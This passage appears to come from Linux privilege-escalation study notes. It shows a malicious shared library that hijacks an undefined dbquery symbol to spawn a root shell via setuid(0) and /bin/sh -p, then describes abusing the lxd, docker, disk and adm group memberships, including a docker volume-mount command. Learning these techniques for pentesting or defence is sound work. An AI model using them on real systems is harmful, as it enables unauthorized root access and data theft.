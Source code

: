 Now, running `./payroll` yields:  
`./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery`  

So, we can create a malicious library `libshared.so` with a function `dbquery()` which can contain whatever we want.  

```C
/* gcc src.c -fPIC -shared -o /development/libshared.so */

#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

Now, executing `./payroll` gives us a root shell  

<br />

## Privileged Groups

### LXC / LXD  

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`  

use `id` to check if member of the `lxd` group  

This is very specific; just look it up. You get an alpine image, `lxd init`, import the image, start a container with `security.privileged=true`, and then mount the host filesystem  

### Docker

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password.  
One example of this would be running the command:  
`docker run -v /root:/mnt -it ubuntu`  
This command creates a new Docker instance with the `/root` directory on the host file system mounted as a volume.  

### Disk 

Users within the `disk` group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use debugfs to access the entire file system with root level privileges.  

### ADM

Members of the `adm` group are able to real all logs in `/var/log`. This could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.  
